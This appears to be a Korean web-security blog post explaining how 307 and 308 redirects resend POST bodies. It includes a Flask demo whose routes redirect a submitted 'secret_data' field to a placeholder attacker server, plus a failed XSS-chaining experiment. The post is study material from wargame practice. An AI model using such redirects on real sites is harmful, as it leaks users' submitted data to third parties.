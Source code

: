 ```yaml
---
title: Response Status Code(307, 308) with POST DATA 
date: 2023-11-14
author: glasses96
categories: [WEB]
tags: [HTTP Response status Code]
pin: true
math: true
mermaid: true
---
```


> **워게임을 공부하다가 알아낸 POST 데이터를 탈취 할 수 있는 방법을 알아봅시다.** 
{: .prompt-info }

---
## Redirection Status Code

HTTP 상태코드에서 리다이렉션 코드는 일반적으로 (300번대)입니다.  
이중에서 `301`, `302`, `307`, `308`에 대해 간략하게 알아봅시다. 

- 301 Moved Permanently : 요청한 리소스의 URI가 변경되었음을 의미
- 302 Found : 요청한 리소스의 URI가 일시적으로 변경되었음을 의미
- 307 Temporary Redirect : 클라리언트가 요청한 리소스가 다른 URI에 있음을 의미, `원래 요청한 메소드와 Body 를 재사용하여 요청을 리다이렉트`
- 308 Permanent Redirect : HTTP 응답 헤더의 Location: 에 명시된 영구히 다른 URI에 위치하고 있음을 의미, `원래 요청한 메소드와 Body 를 재사용하여 요청을 리다이렉트`

특이점은 `307`, `308`은 POST 메소드의 요청인 경우 Body와 함께 요청을 리다이렉트합니다.  
즉 리다이렉션되는 URL이 공격자 서버로 변조할 수 있을 경우 POST 값도 탈취 당할 수 있습니다.

-----

## Example Code
코드는 매우 간단합니다.  
POST 메소드로 `secret_data`라는 변수를 받습니다.  
여기서는 상태 코드 변조 가능 및 공격자의 서버로 리다이렉션된다고 가정해봅시다.  
-> 사실 요청에 대한 응답 상태 및 리다이렉션 서버를 변조하는 것은 매우 어려울꺼 같습니다.

```py
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route('/301', methods=['GET','POST'])
def redirect_301():
    request.form.get("secret_data")
    return redirect("[공격자서버]",code=301)

@app.route('/302', methods=['GET','POST'])
def redirect_302():
    request.form.get("secret_data")
    return redirect("[공격자서버]",code=302)

@app.route('/307', methods=['GET','POST'])
def redirect_307():
    request.form.get("secret_data")
    return redirect("[공격자서버]",code=307)

@app.route('/308', methods=['GET','POST'])
def redirect_308():
    request.form.get("secret_data")
    return redirect("[공격자서버]",code=308)

if __name__ == '__main__':
    app.run(host='0.0.0.0',port="5555")
```


## result

정말로 `307`, `308`만 POST 데이터가 전달되는지 확인해봅시다.  
secret_data에 `glasses96`을 넣고 각 리다이렉션이 되도록 전달했습니다.  
![burp](/assets/post/44/5.png)

![301](/assets/post/44/1.png)
![302](/assets/post/44/2.png)
![307](/assets/post/44/3.png)
![308](/assets/post/44/4.png)

## 후기
Request 요청에 대한 응답 상태코드나 리다이렉션을 공격자서버로 변조를 해야하기 때문에 트리거 하기에는 매우 까다로울꺼 같습니다.  
>post request -> XSS -> 공격자 서버(308 지정) -> requestbin 이런식으로 될까 테스트를 해보았는데 저는 바보였습니다...  
XSS를 이용하여 공격자 서버로 리다이렉션이 될때 전달되는 데이터가 비어있기에... 당연하게도 아무것도 오지 않았습니다.

좀 더 나은 공격 방법에 대해 많은 고민을 해야할꺼같습니다.   


